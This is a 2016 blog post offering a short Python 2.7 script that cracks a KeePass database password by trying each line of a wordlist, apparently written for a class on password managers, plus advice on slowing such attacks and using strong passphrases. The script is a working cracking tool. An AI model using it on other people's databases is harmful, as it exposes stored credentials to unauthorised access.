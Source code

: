 ```yaml
---
id: 425
title: KeePass Dictionary Attack
date: 2016-01-02T00:44:40+00:00
author: Josh
layout: post
guid: https://blog.joshdawes.com/?p=425
permalink: /keepass-dictionary-attack/
image: /wp-content/uploads/2016/01/keepass-dictionary-attack.png
categories:
  - Python
  - Security
---
```

## Update

Python 3 version can be found on <a href="https://github.com/0x6A6F7368/KeePassDictionaryAttack" target="_blank" rel="noreferrer noopener">GitHub</a>.

Updated page can be viewed [here](https://blog.joshdawes.com/python-3-keepass-dictionary-attack/).

## KeePass Dictionary Attack &#8211; Python 2.7

<pre class="wp-block-preformatted">import libkeepass

filename = 'sample.kdbx' # Enter name of keepass database
f = open('passwords.txt') # Enter name of password list

for line in f:
    line = line.strip()
    try:
        with libkeepass.open(filename, password=line) as kdb:
            print '\n \n Password has been found. Your password is ' + `line`
            break
    except IOError:
        print 'Trying password:  ' + line</pre>

I wrote this script for a class I was teaching on using Password Managers. Even though we were implementing a Password Manager, some students still insisted on using simple passwords, thus leaving their password manager vulnerable to a simple dictionary attack. It is by no means an elaborate script, but was enough to outline to my students why we should use strong passwords to protect sensitive data.

<div class="wp-block-image wp-image-116 size-full">
  <figure class="aligncenter"><img src="https://blog.joshdawes.com/wp-content/uploads/2016/01/keepass-dictionary-attack.png" alt="Keepass Dictionary Attack" class="wp-image-116" /><figcaption>The KeePass Dictionary Attack script displaying the password found for a KeePass database.</figcaption></figure>
</div>

To use this script you will need access to a wordlist. There are many wordlists around and a quick Google search for &#8216;wordlist&#8217; will link you to several.&nbsp;A list of the top 500 worst passwords can be found <a href="https://gist.github.com/djaiss/4033452" target="_blank" rel="noreferrer noopener">here</a>.

You will also need to download and install the <a href="https://github.com/phpwutz/libkeepass" target="_blank" rel="noreferrer noopener">libkeepass </a>module. To install this module you may also need to download <a href="https://www.microsoft.com/en-us/download/details.aspx?id=44266" target="_blank" rel="noreferrer noopener">Microsoft Visual C++ compiler </a>for Python 2.7.

The KeePass Dictionary Attack script will cycle though the lines of the password list and then display the password if it finds a match. This password will then let you open an view passwords stored in the database. Currently, there is no message displayed if the password isn&#8217;t found.

## Protecting yourself

A KeePass dictionary using the default values can be attacked a fairly reasonable pace &#8211; depending on the speed of the attacking PC of course.

To help protect against a KeePass Dictionary Attack you can try some of the options found <a href="http://keepass.info/help/base/security.html#secdictprotect" target="_blank" rel="noreferrer noopener">here</a> &#8211; this doesn&#8217;t prevent an attacker running this script but does dramatically slow the attacker down.

## Dictionary Attack

A dictionary attack is when an attacker uses a wordlist of common passwords to attempt entry into your account/devices/files/etc. This is often successful due to people using simple dictionary words for passwords &#8211; to avoid this kind of attack ensure you use [long, unique passwords](https://blog.joshdawes.com/diceware-passphrase-generator/).